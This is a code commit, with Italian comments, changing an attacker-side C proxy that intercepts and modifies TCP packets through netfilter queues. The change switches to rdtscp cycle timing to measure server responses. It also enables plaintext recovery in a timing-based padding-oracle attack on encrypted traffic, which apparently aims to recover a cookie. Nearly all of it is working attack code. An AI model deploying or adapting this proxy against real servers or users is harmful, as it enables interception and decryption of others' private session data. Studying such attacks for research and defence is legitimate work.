

rdtscp nel proxy normale

diff --git a/attacker/src/proxy.c b/attacker/src/proxy.c
@@ -36,12 +36,16 @@ void intercept_packets();
 static inline struct iphdr *extract_ip_header(Byte *payload, unsigned int payload_len);
 static inline struct tcphdr *extract_tcp_header(Byte *payload, unsigned int payload_len, unsigned int iphdr_len);
 static inline Byte *extract_application_data(Byte *payload, unsigned int payload_len, unsigned int iphdr_size, unsigned int tcphdr_size);
-
 void *do_attack_thread(void *arg);
-
 static int packet_verdict_handler(struct nfq_q_handle *qh, struct nfgenmsg *nfmsg, struct nfq_data *nfa, void *data);
-
 void stampa_cookie();
+
+static inline uint64_t rdtsc() {
+  unsigned int lo, hi, aux;
+  __asm__ __volatile__ ("rdtscp" : "=a"(lo), "=d"(hi), "=c"(aux));
+  return ((uint64_t)hi << 32) | lo;
+}
+
 
 char *active_interface;
 Data_packet *data_packet;
@@ -520,7 +524,7 @@ unsigned short recalculate_checksum(){
 }
 
 //function to send the modified packet to the server
-void send_modified_packet(struct timespec *start){
+void send_modified_packet(uint64_t *start){
   int smp_fd = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
   int hincl = 1;
   int mark = 1;
@@ -554,7 +558,9 @@ void send_modified_packet(struct timespec *start){
 
   //printf("ho creato l'indirizzo ora spedisco il pacchetto al server! \n");
 
-  clock_gettime(CLOCK_MONOTONIC_RAW, start);
+
+  //DA CAMBIARE
+  *start = rdtsc();
   sendto(smp_fd, raw_packet, total_packet_length,0, (struct sockaddr *)&server_addr, sizeof(server_addr));
 
   //printf("pacchetto mandato al server! \n");
@@ -569,7 +575,7 @@ void *do_attack_thread(void *arg){
   struct timespec start;
   char *server_interface = get_server_interface(ip_server, port_server);
   bool first_attack = true;
-  int n_attemps = 0;
+  unsigned long long n_attemps = 0;
   struct first_attack_result *fa_result = calloc(1, sizeof(struct first_attack_result));
   struct attack_result *a_result = calloc(1, sizeof(struct attack_result));
   Byte expected_padding = 0x01; 
@@ -629,36 +635,21 @@ void *do_attack_thread(void *arg){
    
     flush_pcap_buffer(pcap_handle);
          
-    send_modified_packet(&start);
+    uint64_t start_cycles;
+    send_modified_packet(&start_cycles);
+    uint64_t stop_cycles =  get_server_response_time(pcap_handle, start_cycles);
 
-    struct timespec stop = get_server_response_time(pcap_handle, start);;
-
-    if(stop.tv_sec == 0 && stop.tv_nsec == 0){
+    if(stop_cycles == 0){
       printf("Server didn't reply \n");
       attack = false;
       continue;
     }
 
+    long long delta = stop_cycles - start_cycles;
 
-    long long resp_nanosec = ((long long)stop.tv_sec * 1000000000LL) + stop.tv_nsec;
-    long long send_nanosec = ((long long)start.tv_sec * 1000000000LL) + start.tv_nsec;
-    long long delta = resp_nanosec - send_nanosec;
-
-    /*
-    long resp_microsec = (stop.tv_sec * 1000000) + (stop.tv_nsec / 1000);
-    printf("valore di resp_microsec: %lu \n", resp_microsec);
-    long send_microsec = (start.tv_sec * 1000000) + (start.tv_nsec / 1000);
-    printf("valore di send_microsec: %lu \n", send_microsec); 
-    long delta = resp_microsec - send_microsec;   */
-
-    printf("Reply delta time: %lu \n", delta);
+    printf("Reply delta time: %llu \n", delta);
 
     //write the reply time inside the struct
-
-    //if n_attemps == L_SIZE * 256 * 256 && first_attack (in first attack) call analyze_double_bytes(struct first_attack *result) function
-      //then set n_attemps == 0 and first_attack = false
-    //n_attemps / 256 = L (column for meas matrix)
-    //n_attemps - 256 * L = byte (row for meas matrix)
 
     int column, row;
    
@@ -668,7 +659,7 @@ void *do_attack_thread(void *arg){
       fa_result->time_meas[row][column] = (int64_t)delta;
       n_attemps++;
 
-      if(n_attemps == (L_SIZE * 256 * 256)){
+      if(n_attemps == ((unsigned long long)L_SIZE * 256 * 256)){
         n_attemps = 0;
         first_attack = false;
 
@@ -691,23 +682,26 @@ void *do_attack_thread(void *arg){
 
         printf("Valore del penultimo byte: 0x%02x", guessed_penultimate);
         printf("Valore dell'ultimo byte: 0x%02x", guessed_last);
-        //Byte plain_penultimate = expected_padding ^ guessed_penultimate ^ original_ciph_penultimate;
-        //Byte plain_last = expected_padding ^ guessed_last ^ original_ciph_last;
+
+        Byte plain_penultimate = expected_padding ^ guessed_penultimate ^ original_ciph_penultimate;
+        Byte plain_last = expected_padding ^ guessed_last ^ original_ciph_last;
         
-        //printf("Plaintext Penultimo: 0x%02x (ASCII: %c)\n", plain_penultimate, plain_penultimate);
-        //printf("Plaintext Ultimo:    0x%02x (ASCII: %c)\n", plain_last, plain_last);
+        printf("Plaintext Penultimo: 0x%02x (ASCII: %c)\n", plain_penultimate, plain_penultimate);
+        printf("Plaintext Ultimo:    0x%02x (ASCII: %c)\n", plain_last, plain_last);
 
         /*DEBUGGING
           so che gli ultimi 2 byte del plaintext sono 0x38 (8) e 0x39 (9)
           per ottenere 0x01 0x01 so che i byte che devo iniettare sono
         */
-
+       
         /*
         Byte expected_last_byte = 0x01 ^ 0x39 ^ original_ciph_last;
-        Byte expcted_penultime_byte = 0x01 ^ 0x038 ^ original_ciph_penultimate; */
+        Byte expcted_penultime_byte = 0x01 ^ 0x038 ^ original_ciph_penultimate; 
+        */
 
+        /*
         Byte expected_last_byte = 0x39;
-        Byte expected_penultimate_byte = 0x38;
+        Byte expected_penultimate_byte = 0x38; */
 
         printf("I byte che l'analisi statistica deve scegliere sono: \n last_byte: 0x%02x \n penultimate_byte: 0x%02x \n ", expected_last_byte, expected_penultimate_byte);
         

diff --git a/attacker/src/test_proxy.c b/attacker/src/test_proxy.c
@@ -309,9 +309,12 @@ static int packet_verdict_handler(struct nfq_q_handle *qh, struct nfgenmsg *nfms
         printf("Printing of the data \n");
         print_application_data(application_payload, application_payload_size);
 
-        if(check_data_length(application_payload, application_payload_size) == false){
+        if(check_data_length(application_payload, application_payload_size) == false){ 
           fprintf(stderr, "Data length is not correct! \n");
-          return nfq_set_verdict(qh, id, NF_DROP, 0, NULL);
+          //return nfq_set_verdict(qh, id, NF_DROP, 0, NULL); 
+
+          //devo accettare il pacchetto perchè potrebbe essere che venga spezzato a causa della congestione di rete
+          return nfq_set_verdict(qh, id, NF_ACCEPT, 0, NULL);
         }
 
         //ALLOCAZIONE ED INIZIALIZZAZIONE DEL PACCHETTO DATA_LENGTH (VARIABILE GLOBALE) E DEI SUOI CAMPI (IP HEADER, TCP HEADER, APPLICATION DATA)
@@ -575,11 +578,8 @@ void send_modified_packet(uint64_t *start){
 
 //thread function to perform attack
 void *do_attack_thread(void *arg){
-    // 1. FORZIAMO LA FASE 2 FIN DAL PRIMO PACCHETTO
   bool first_attack = false; 
   unsigned int n_attemps = 0;
-  
-  // 2. IMPOSTIAMO UN NUMERO DI TEST ALTO PER BATTERE IL RUMORE
   unsigned long int L_TEST = 50000; 
 
   struct attack_result *a_result = calloc(1, sizeof(struct attack_result));
@@ -672,11 +672,10 @@ void *do_attack_thread(void *arg){
     attack = false;
   }
 
-  // --- PULIZIA DELLA MEMORIA E CHIUSURA ---
   printf("\nEseguo la pulizia della memoria...\n");
   stampa_cookie();
 
-  // (fa_result non c'è più in questo test veloce, quindi non serve liberarlo)
+  // in this test there isn't fa_result 
   free(a_result);
   
   if (original_packet != NULL) {
